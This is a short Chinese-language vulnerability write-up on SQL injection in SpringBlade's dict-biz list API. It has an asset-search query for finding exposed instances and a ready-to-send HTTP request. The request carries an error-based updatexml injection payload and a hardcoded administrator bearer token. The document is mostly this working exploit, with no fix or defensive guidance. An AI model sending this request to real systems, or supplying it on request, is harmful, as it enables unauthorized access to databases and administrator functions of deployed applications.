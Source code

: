 # SpringBlade dict-biz-list存在SQL注入漏洞

# 一、漏洞简介
SpringBlade dict-biz-list存在SQL注入漏洞，攻击者利用该漏洞进行SQL注入攻击

# 二、影响版本
+ SpringBlade

# 三、资产测绘
+ `<font style="color:rgb(63, 63, 63);">body="https://bladex.vip"</font>`

![1703260241729-c77ed022-a493-4621-983c-5ec64ddbde71.png](./img/zP2uHUDH9siaTuRD/1703260241729-c77ed022-a493-4621-983c-5ec64ddbde71-391449.png)

# 四、漏洞复现
```java
GET /api/blade-system/dict-biz/list?updatexml(1,concat(0x7e,user(),0x7e),1)=1 HTTP/1.1
Host: 
User-Agent:Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Blade-Auth: bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0ZW5hbnRfaWQiOiIwMDAwMDAiLCJ1c2VyX25hbWUiOiJhZG1pbiIsInJlYWxfbmFtZSI6IueuoeeQhuWRmCIsImF1dGhvcml0aWVzIjpbImFkbWluaXN0cmF0b3IiXSwiY2xpZW50X2lkIjoic2FiZXIiLCJyb2xlX25hbWUiOiJhZG1pbmlzdHJhdG9yIiwibGljZW5zZSI6InBvd2VyZWQgYnkgYmxhZGV4IiwicG9zdF9pZCI6IjExMjM1OTg4MTc3Mzg2NzUyMDEiLCJ1c2VyX2lkIjoiMTEyMzU5ODgyMTczODY3NTIwMSIsInJvbGVfaWQiOiIxMTIzNTk4ODE2NzM4Njc1MjAxIiwic2NvcGUiOlsiYWxsIl0sIm5pY2tfbmFtZSI6IueuoeeQhuWRmCIsIm9hdXRoX2lkIjoiIiwiZGV0YWlsIjp7InR5cGUiOiJ3ZWIifSwiYWNjb3VudCI6ImFkbWluIn0.RtS67Tmbo7yFKHyMz_bMQW7dfgNjxZW47KtnFcwItxQ
Connection: close
```

![1722874895220-4024b228-5758-48fa-816a-9afa12566780.png](./img/zP2uHUDH9siaTuRD/1722874895220-4024b228-5758-48fa-816a-9afa12566780-645241.png)



> 更新: 2024-12-13 17:10:56  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/saek9akpfy591lcv>